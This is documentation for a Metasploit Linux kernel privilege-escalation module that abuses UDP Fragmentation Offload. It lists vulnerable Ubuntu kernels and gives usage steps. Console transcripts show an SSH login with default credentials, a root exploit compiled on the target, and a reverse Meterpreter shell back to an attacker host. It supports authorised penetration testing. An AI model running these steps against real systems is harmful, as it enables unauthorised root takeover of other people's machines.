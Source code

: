 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).

This module has been tested successfully on:

  * Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop
  
There is a large swath of vulnerable kernels believed to be from about 3.13 to 4.11.
Only Ubuntu kernels were coded into this particular exploit, however other flavors of linux
may also be vulnerable.

  * Trusty 14.04 (14.04.5 shipped with 4.4 by default)
    * 4.4.0-21-generic
    * 4.4.0-22-generic
    * 4.4.0-24-generic
    * 4.4.0-28-generic
    * 4.4.0-31-generic
    * 4.4.0-34-generic
    * 4.4.0-36-generic
    * 4.4.0-38-generic
    * 4.4.0-42-generic
    * 4.4.0-45-generic
    * 4.4.0-47-generic
    * 4.4.0-51-generic
    * 4.4.0-53-generic
    * 4.4.0-57-generic
    * 4.4.0-59-generic
    * 4.4.0-62-generic
    * 4.4.0-63-generic
    * 4.4.0-64-generic
    * 4.4.0-66-generic
    * 4.4.0-67-generic
    * 4.4.0-70-generic
    * 4.4.0-71-generic
    * 4.4.0-72-generic
    * 4.4.0-75-generic
    * 4.4.0-78-generic
    * 4.4.0-79-generic
    * 4.4.0-81-generic
    * 4.4.0-83-generic
  * Xenial 16.04 (16.04, and 16.04.1 ship with 4.4 kernels, while 16.04.2 ships with 4.8, and 16.04.3 ships with 4.10)
    * 4.4.0-81-generic
    * 4.4.0-89-generic
    * 4.8.0-34-generic
    * 4.8.0-36-generic
    * 4.8.0-39-generic
    * 4.8.0-41-generic
    * 4.8.0-45-generic
    * 4.8.0-46-generic
    * 4.8.0-49-generic
    * 4.8.0-52-generic
    * 4.8.0-53-generic
    * 4.8.0-54-generic
    * 4.8.0-56-generic
    * 4.8.0-58-generic
    * 4.4.0-81-generic
          
### POC Issues

In the original POC exploit, a bash shell is executed with root privileges, however, in testing,
it was determined that the network stack seems to be unresponsive post exploitation to that process
and its children.  To circumvent this issue, this exploit calls a stub bash script to chmod and set
suid/sgid bits on the payload.  Then the original shell can simply execute the payload to escalate.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
resource (ubuntu.rb)> use exploit/linux/local/ufo_privilege_escalation
resource (ubuntu.rb)> set verbose true
verbose => true
resource (ubuntu.rb)> set session 1
session => 1
resource (ubuntu.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ubuntu.rb)> exploit
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Kernel 4.4.0-31-generic on "14.04" vulnerable
[*] Checking if smap is installed
[+] smap not present.
[+] gcc is installed
[*] Live compiling exploit on system
[*] Writing files to target
[*] Writing szNEyaWe to /tmp/szNEyaWe.c
[*] Max line length is 65537
[*] Writing 25590 bytes in 2 chunks of 56634 bytes (octal-encoded), using printf
[*] Next chunk is 32498 bytes
[*] Writing ZcwJhBLU to /tmp/ZcwJhBLU
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Writing cecdokdw.sh to /tmp/cecdokdw.sh
[*] Max line length is 65537
[*] Writing 67 bytes in 1 chunks of 251 bytes (octal-encoded), using printf
[*] Starting execution of priv esc, chowning and setting suid bit for payload.
[*] [.] starting
[*] [.] checking distro and kernel versions
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, versions looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [~] done, kernel text:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Executing payload
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] Sleeping before handling stage...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:42382) at 2018-04-03 20:58:50 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=0, egid=0
```
